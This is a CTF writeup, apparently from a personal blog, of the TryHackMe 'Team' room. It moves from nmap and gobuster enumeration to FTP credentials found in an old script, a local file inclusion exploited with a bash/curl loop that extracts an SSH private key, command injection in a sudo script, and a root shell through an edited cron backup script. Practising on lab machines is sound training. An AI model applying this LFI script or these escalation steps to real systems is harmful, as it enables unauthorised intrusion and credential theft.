 +++ 
draft = false
date = 2021-03-11T17:23:30+05:30
title = "Team TryHackMe Writeup"
description = "Team THM Writeup"
slug = ""
authors = ["d4rkn1gh7"]
tags = ["ctf","thm","easy_box"]
categories = ["TryHackMe"]
externalLink = ""
series = ["TryHackMe"]
+++
# [Team](https://tryhackme.com/room/teamcw) TryHackMe Writeup

![](/TryHackMe/Team/BoxImage.png)

## __First Stage : Enumeration__

As usual we start with nmap scan to find open ports.

```
# Nmap 7.91 scan initiated Mon Mar  8 19:59:25 2021 as: nmap -sC -sV -T4 -vv -p- -oN nmapscan 10.10.65.7
Nmap scan report for 10.10.65.7
Host is up, received syn-ack (0.15s latency).
Scanned at 2021-03-08 19:59:26 IST for 225s
Not shown: 65532 filtered ports
Reason: 65532 no-responses
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 79:5f:11:6a:85:c2:08:24:30:6c:d4:88:74:1b:79:4d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDRK/xFh/H4lC7shWUUvK9lKxd3VO2OwfsC8LjFEU2CnEUrbVCnzx8jiVp5gO+CVAj63+GXkbIuXpynlQ/4j1dXdVUz/yAZ96cHiCNo6S5ThONoG2g2ObJSviCX2wBXhUJEzW07mRdtx4nesr6XWMj9hwIlSfSBS2iPEiqHfGrjp14NjG6Xmq5hxZh5Iq3dBrOd/ZZKjGsHe+RElAMzIwRK5NwFlE7zt7ZiANrFSy4YD4zerNSyEnjPdnE6/ArBmqOFtsWKZ2p/Wc0oLOP7d6YBwQyZ9yQNVGYS9gDIGZyQCYsMDVJf7jNvRp/3Ru53FMRcsYm5+ItIrgrx5GbpA+LR
|   256 af:7e:3f:7e:b4:86:58:83:f1:f6:a2:54:a6:9b:ba:ad (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBM4d9TCz3FkEBEJ1VMjOsCrxsbS3YGb7mu9WgtnaFPZs2eG4ssCWz9nWeLolFgvHyT5WxRT0SFSv3vCZCtN86I=
|   256 26:25:b0:7b:dc:3f:b2:94:37:12:5d:cd:06:98:c7:9f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHUxjoul7JvmqQMtGOuadBwi2mBVCdXhJjoG5x+l+uQn
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add 'te...
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Mar  8 20:03:11 2021 -- 1 IP address (1 host up) scanned in 226.37 seconds
```

Hence open ports are :

* 22
* 80

So let's visit port 80.

![](/TryHackMe/Team/port80.png)



So seeing the source code we get that we have to add **team.thm** to our hosts file.

![](/TryHackMe/Team/source.png)




So going to http://team.thm .

![](/TryHackMe/Team/team.thm.png)


So My next step was gobuster.


```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===========================================================
[+] Url:            http://team.thm/
[+] Threads:        30
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     js,txt,html,php,zip,json
[+] Timeout:        10s
===========================================================
2021/03/08 20:45:17 Starting gobuster
===========================================================
/images (Status: 301)
/scripts (Status: 301)
/assets (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
/server-status (Status: 403)
/index.html (Status: 200)
===========================================================
2021/03/08 21:20:15 Finished
===========================================================
```

So after going through many rabbit holes , I got a hint from a friend saying to look at the scripts directory **deeply**. 

Hence I did a gobuster on scripts dir.And got a interesting file.

```
===========================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===========================================================
[+] Url:            http://team.thm/scripts/
[+] Threads:        30
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     json,js,txt,html,php,zip
[+] Timeout:        10s
===========================================================
2021/03/09 14:50:52 Starting gobuster
===========================================================
/script.txt (Status: 200)
````

So going to that file .

![](/TryHackMe/Team/scriptnew.png)

So we can see that there is an old script which contains username and password , but it's extension is different. Hence I tried some extensions and one extension which worked was **.old**.

![](/TryHackMe/Team/scriptold.png)


Hence using this I got into ftp.

![](/TryHackMe/Team/ftp.png)

So going to workshare directory we see that there is a text file called New_site.txt.

![](/TryHackMe/Team/newsite.png)


So adding dev.team.thm to the hosts file we visit it.

![](/TryHackMe/Team/devteam.png)


## __Second Stage : Initial Access as Dale__


Hence clicking that link gives us the possibility of LFI.

![](/TryHackMe/Team/teamshare.png)

So I tried /etc/passwd

![](/TryHackMe/Team/lfipasswd.png)

So from the txt file we got we can see that the id_rsa is in a config file but we don't know what file . Hence I searched for interesting LFI files and got a list of files.

>https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi-linux-list

Save the list as paths.txt. And I created a script to automate the lfi process. 

```bash
#!/bin/bash
filename='paths.txt'

while read line  
do 
echo "[+] Trying $line"
curl http://dev.team.thm/script.php\?page\=../../../../../../../../$line > result.txt
if [[ -n ` grep "OPENSSH" result.txt`   ]]
then
        break
else
        continue
fi

done < $filename
```

After running the script for sometime , it stops at a particular file. 

![](/TryHackMe/Team/found.png)


So if we open the result.txt we get the id_rsa.

![](/TryHackMe/Team/id_rsa.png)



Hence we can save it and ssh into the machine as dale.


![](/TryHackMe/Team/dale.png)


## __Second Stage : dale to gyles__


Since we have sudo permission let's check what is **admin_checks** .

It is a bash script

```shell
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"
```

After going through some of the rabbit holes I got to know the way to exploit this. The error variable is being executed.

Hence to exploit this :

![](/TryHackMe/Team/gyles.png)


## __Third Stage : Gyles to root__

Since gyles was in admin grp I did a search.

![](/TryHackMe/Team/script.png)


So I downloaded pspy and ran it in the box.


![](/TryHackMe/Team/cronjob1.png)

So I edited the **main_backup.sh** like this.

![](/TryHackMe/Team/editedscript.png)



And go root shell back!


![](/TryHackMe/Team/root.png)